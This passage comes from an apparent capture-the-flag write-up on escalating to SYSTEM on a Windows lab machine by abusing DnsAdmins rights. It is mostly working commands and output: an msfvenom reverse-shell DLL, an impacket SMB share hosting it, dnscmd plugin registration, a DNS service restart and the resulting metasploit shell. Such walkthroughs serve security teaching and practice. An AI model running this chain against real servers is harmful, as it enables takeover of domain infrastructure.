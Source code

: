     :::text
    msfvenom -p windows/x64/shell_reverse_tcp LHOST="10.10.14.56" LPORT=4444 -f dll -o ~/srv/msf3.dll

We start our SMB server using
[impacket](https://github.com/SecureAuthCorp/impacket) `smbserver.py`

    :::text
    python smbserver.py -ip 10.10.14.56 IOIO ~/srv/

Registry property serverlevelplugindll successfully reset.
Command completed successfully. We start our handler using metasploit. And using
our shell as `ryan` we change the DNS configuration, stop the DNS service and
start it back using `sc.exe`. We can see in our SMB server's logs that our
DLL is sent to the server. And we can see on our metasploit handler that we get
a revershell. We can then easily get the root flag.

    ::: text
    *Evil-WinRM* PS C:\Users\ryan> dnscmd /config /serverlevelplugindll \\10.10.14.56\IOIO\msf3.dll

    *Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 3  STOP_PENDING
                                    (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x1
            WAIT_HINT          : 0x7530
    *Evil-WinRM* PS C:\Users\ryan> sc.exe start dns

    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 2  START_PENDING
                                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x0
            WAIT_HINT          : 0x7d0
            PID                : 4980
            FLAGS              :

The metasploit handler is running simultaneously.

    :::text
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.56:4444
    [*] Command shell session 2 opened (10.10.14.56:4444 -> 10.10.10.169:50613) at 2019-12-12 03:46:20 -0500

    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    type C:\Users\Administrator\Desktop\root.txt
    e1d94876a506850d0c20edb5405e619c
